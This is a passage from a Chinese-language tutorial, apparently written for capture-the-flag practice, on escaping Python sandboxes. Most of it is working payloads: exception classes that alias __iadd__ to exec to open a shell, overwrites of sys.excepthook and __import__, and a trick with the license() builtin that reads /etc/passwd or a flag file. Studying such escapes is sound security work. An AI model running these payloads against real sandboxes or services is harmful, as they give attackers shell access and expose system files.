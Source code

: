 ##### exceptions 利用[](#exceptions-利用)

利用 exceptions 的目的也是为了绕过显示地实例化一个类, 如果一个类继承了 Exception 类, 那么就可以通过 raise 关键字来实例化. payload 如下:

```
class RCE(Exception):
    def __init__(self):
        self += 'import os; os.system("sh")'
    __iadd__ = exec 
    
raise RCE
```

raise 会进入 RCE 的 `__init__`, 然后触发 `__iadd__` 也就是 exec.

当然, 触发异常不一定需要 raise, 主动地编写错误代码也可以触发, 与是就有了如下的几种 payload.

```
class X:
    def __init__(self, a, b, c):
        self += "os.system('sh')"
    __iadd__ = exec
sys.excepthook = X
1/0
```

这个 payload 中直接将 sys.excepthook 进行覆盖, 任何异常产生时都会触发.

```
class X():
  def __init__(self, a, b, c, d, e):
    self += "print(open('flag').read())"
  __iadd__ = eval
__builtins__.__import__ = X
{}[1337]
```

这个 payload 将 `__import__` 函数进行覆盖, 最后的 {}[1337] 在正常情况下会引发 KeyError 异常，因为 Python 在引发异常时会尝试导入某些模块（比如 traceback 模块），导入时就会触发 `__import__`.

#### 通过 license 函数读取文件[](#通过-license-函数读取文件)

```
__builtins__.__dict__["license"]._Printer__filenames=["/etc/passwd"]
a = __builtins__.help
a.__class__.__enter__ = __builtins__.__dict__["license"]
a.__class__.__exit__ = lambda self, *args: None
with (a as b):
    pass
```

上面的 payload 修改内建函数 license 的文件名列表为 /etc/passwd 当调用 `license()` 时会打印这个文件的内容.

```
>>> __builtins__.__dict__["license"]._Printer__filenames
['/usr/lib/python3.11/../LICENSE.txt', '/usr/lib/python3.11/../LICENSE', '/usr/lib/python3.11/LICENSE.txt', '/usr/lib/python3.11/LICENSE', './LICENSE.txt', './LICENSE']
```
